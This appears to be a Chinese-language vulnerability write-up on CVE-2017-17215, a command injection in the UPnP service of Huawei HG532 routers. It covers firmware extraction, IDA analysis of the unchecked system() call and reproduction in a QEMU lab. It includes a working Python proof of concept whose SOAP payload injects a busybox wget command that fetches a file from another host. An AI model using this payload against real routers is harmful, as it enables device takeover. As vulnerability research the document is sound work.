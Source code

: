 ## 漏洞信息

CVE-2017-17215-HG532命令注入漏洞

华为 HG532 系列路由器是一款为家庭和小型办公用户打造的高速无线路由器产品。

漏洞利用的是upnp服务存在的注入漏洞实现任意命令执行。

## poc

```python
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 172.16.16.17 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://172.16.16.21:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```

## 分析

使用binwalk解压固件

```
$ binwalk -Me HG532eV100R001C01B020_upgrade_packet.bin
```

-Me选项用于递归扫描提取数据

根据公开的信息可知，漏洞处于upnp服务中，可直接将bin/upnp拖到IDA里面分析，也可以根据poc中的特征字符串`ctrlt`以及`DeviceUpgrade_1`寻找，看该字符串处于哪个可执行程序当中。

```
$ grep -r "ctrlt"
Binary file bin/upnp matches
$ grep -r "DeviceUpgrade"
Binary file bin/upnp matches
$ file bin/upnp
bin/upnp: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, corrupted section header size
```

定位到upnp，查看得知文件类型是mips 32位的，且格式为大端MSB

扔进ida分析，根据poc，注入点是`<NewStatusURL>`以及`<NewDownloadURL>`，在字符串中找到它们：

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/HG532命令注入-1.png)

查看引用的地方

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/HG532命令注入-2.png)

跳转到调用函数可以看到，程序通过`ATP_XML_GetChildNodeByName`函数获取xml中的`<NewStatusURL>`节点，并且未经过检查就直接与`upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -`拼接使用`system`函数进行执行。

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/HG532命令注入-3.png)

具体来说利用的原理就是首先在`<NewStatusURL>`输入单引号将前面的字符串闭合，然后再注入相应的执行命令即可，如需要执行`ls`命令，则需要做的就是构造`<NewStatusURL>';ls;</NewStatusURL>`节点即可。该节点字符串与`upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -`拼接得到`upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r ';ls; -d -`，然后执行system调用，实现注入。

## 复现

### 按照以下方式可以实现通信，但是运行mic网络会崩

主要依据[这里](https://github.com/Mosk0ng/pwn4fun/blob/master/days/2020_11_7.md)来配置网络环境

补充：[debian mips qemu镜像链接](https://people.debian.org/~aurel32/qemu/mips/)
选择 debian_squeeze_mips_standard.qcow2和vmlinux-2.6.32-5-4kc-malta下载

虚拟机启动命令:

```
sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap -nographic
```

将固件包传到虚拟机

```
scp -r ./squashfs-root root@虚拟机ip:/root/
```

使用`chroot . sh`切换到该固件的根目录下，根据poc，找一下端口号37215

```
$ grep -r "37215"
Binary file bin/mic matches
```

端口号只出现在mic文件内，所以猜测是mic启动的upnp服务，直接运行`mic`命令。

### 再次尝试

根据https://www.freebuf.com/vuls/160040.html 进行配置，但是有一步关闭ens33应为sudo ifdown eth33，再就是最后一步ifup eth1会出错，需要用ifconfig eth0 192.168.0.110 netmask 255.255.255.0再次配置，这里的192.168.0需要参考本机的br0网卡。

复现成功

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/HG532命令注入-4.png)



参考：

- [CVE-2017-17215-HG532命令注入漏洞分析](https://xz.aliyun.com/t/4819)
- [通过CVE-2017-17215学习路由器漏洞分析，从入坑到放弃](https://www.freebuf.com/vuls/160040.html)

